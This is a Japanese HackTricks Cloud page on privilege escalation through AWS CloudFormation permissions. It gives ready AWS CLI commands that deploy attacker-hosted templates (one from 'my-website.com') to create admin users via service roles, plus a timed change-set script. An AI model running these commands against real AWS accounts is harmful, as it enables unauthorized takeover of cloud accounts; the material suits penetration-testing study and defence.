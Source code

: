 # AWS - Cloudformation Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れよう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>

## cloudformation

cloudformationについての詳細は以下をチェックしてください:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole`** と **`cloudformation:CreateStack`** の権限を持つ攻撃者は、**CloudFormationスタックを作成する際に渡されたロールの権限を使用して** アクションを実行しリソースを作成するCloudFormationテンプレートを作成することで**権限を昇格**することができます。
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
攻撃者のウェブサイトにあるテンプレートには、**管理者ユーザーを作成するなどの悪意のある行動を実行する**指示が含まれており、その資格情報を使用して自分のアクセス権をエスカレートさせます。

次のページでは、追加の権限 **`cloudformation:DescribeStacks`** を持つ**悪用例**があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響：** 指定されたcloudformationサービスロールへのPrivesc。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

このケースでは、既存のcloudformationスタックを**悪用して更新し**、前のシナリオと同様に権限をエスカレートさせることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** cloudformation サービスロールに対する権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っていても **`iam:PassRole` がない場合**、使用中のスタックを**更新**し、既にアタッチされている **IAM ロールを悪用**することができます。悪用の例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 既にアタッチされている cloudformation サービスロールに対する権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**ロールを渡す権限と ChangeSet を作成 & 実行する権限**を持つ攻撃者は、**CreateStack や UpdateStack と同様に、新しい cloudformation スタックを作成/更新して cloudformation サービスロールを悪用**することができます。

以下の悪用は、スタックを作成するために **ChangeSet 権限**を使用する[**CreateStack の**](./#iam-passrole-cloudformation-createstack) **変種**です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `ChangeSet` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡すことなく、既にアタッチされているロールを**悪用する**ことができます。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的な影響:** 既にアタッチされているcloudformationサービスロールへのPrivesc。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のcloudformationロールを悪用するためにStackSetsを作成/更新する可能性があります。

**潜在的な影響:** cloudformationサービスロールへのPrivesc。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用して、アタッチされたcloudformationロールを悪用するためにStackSetsを更新する可能性があります。

**潜在的な影響:** アタッチされたcloudformationロールへのPrivesc。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>

